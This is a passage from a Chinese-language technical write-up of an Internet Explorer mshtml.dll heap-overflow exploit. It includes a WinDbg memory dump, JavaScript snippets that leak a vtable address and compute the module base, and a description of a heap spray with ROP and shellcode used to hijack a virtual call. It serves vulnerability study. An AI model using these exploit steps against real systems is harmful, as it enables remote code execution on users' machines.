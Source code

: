 ```
030c12ec  00420042 00420042 00420042 00420042
030c12fc  00420042 00420042 00420042 00420042
030c130c  00420042 00420042 00420042 00420042
030c131c  00000042 2baf3474 8c000000 687f84f8
030c132c  0049ca00 030bce00 687f8690 00000001 # 这里0x687f8690是需要leak的地址
030c133c  00000000 01080809 ffffffff 00000000
030c134c  00000000 00000000 ffffffff 00000080
030c135c  ffffffff 00000000 00000000 00000000
030c136c  00000000 00000000 00000024 00000020
030c137c  00000000 00000000 00000000 00000000
030c138c  00000000 00000000 00000000 00000000
030c139c  00000000 00000000 00000000 00000000
030c13ac  00000000 00000000 00000000 00000000

0:005> ln 687f8690 
(687f8690)   mshtml!CButtonLayout::`vftable'   |  (687f8738)   mshtml!CObjectImageLayout::`vftable'
Exact matches:
    mshtml!CButtonLayout::`vftable' = <no type information> 
```

需要利用堆溢出，通过js代码动态更新span属性值来达到目的。每一个都会写入一串0x1c的样式，所以要修改size的话需要`0x30c121c - 0x30c110c / 0x1c = 9 + 1 = 10`，再将span增加10，即修改span为19。写完后，字符串B的长度由0x000000fa变成了0x00010048，因此该对象能访问的内存空间变广了，这样我们就能通过如下代码获取到CButtonLayout对象的vftable值，最计算得到mshtml.dll模块的基址。

此段exp如下：

```javascript
function leak() {
  var leak_col = document.getElementById("132");
  leak_col.width = "41";
  leak_col.span = "19";
}

setTimeout(function(){leak(), 400});
```

然后获取模型基址的exp如下

**注：这里的bl[498]稍微令人有些费解，不过可以通过在exp中判断每个字符串的size是否被修改过从而定位到溢出的BSTR对象，类似漏洞战争一书中的exp**

```javascript
//计算mshtml模块基址，并通过堆喷进行rop和shellcode布局
function get_leak() {
    var str_addr = strtoint(bl[498].substring((0x100-6)/2+11,(0x100-6)/2+13));
    str_addr = str_addr - 1410704;
    //setTimeout(function(){heapspray(str_addr)}, 50);
}
```

其中红色位置，字符串长度被修改为0x10048，就可以溢出得到蓝色位置的值。

#### Heap Spray

在得到mshtml.dll模块的基址后，我们就有机会构造相应的ROP链来实现想要的功能了，那么现在需要解决另外一个问题，也就是如何让程序跳转到我们的ROP链执行。**此exp首先会利用堆喷技术将ROP链中的gadget地址和参数以及后面用到的shellcode布局到进程地址空间中的固定位置，而后再利用堆溢出重写CButtonLayout对象的虚表指针，使其指向前面提到的固定位置，这样当虚函数被调用时就会跳转到我们的ROP链中。**
